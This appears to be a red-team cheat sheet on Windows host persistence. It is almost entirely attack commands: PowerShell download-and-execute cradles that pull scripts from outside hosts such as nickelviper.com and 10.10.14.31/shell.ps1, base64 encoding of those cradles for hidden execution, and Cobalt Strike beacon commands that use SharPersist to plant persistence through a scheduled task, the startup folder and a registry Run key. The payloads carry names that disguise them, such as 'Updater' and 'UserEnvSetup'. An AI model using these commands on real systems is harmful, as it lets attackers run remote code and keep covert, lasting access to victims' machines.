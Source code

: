 # Host Persistence 

NORMAL USER

# Default location for powershell

    C:\windows\syswow64\windowspowershell\v1.0\powershell
    C:\Windows\System32\WindowsPowerShell\v1.0\powershell

# Encode the payload for handling extra quotes
# Powershell

    PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
    PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

#Linux 

    $ echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0

# Final Command

    powershell -nop -enc <BASE64_ENCODED_PAYLOAD>

# Persistence - Task Scheduler

    beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoAC...GEAIgApACkA" -n "Updater" -m add -o hourly

# Persistence - Startup Folder

    beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAo..vAGEAIgApACkA" -f "UserEnvSetup" -m add

# Persistence - Registry Autorun

    beacon> cd C:\ProgramData
    beacon> upload C:\Payloads\http_x64.exe
    beacon> mv http_x64.exe updater.exe
    beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
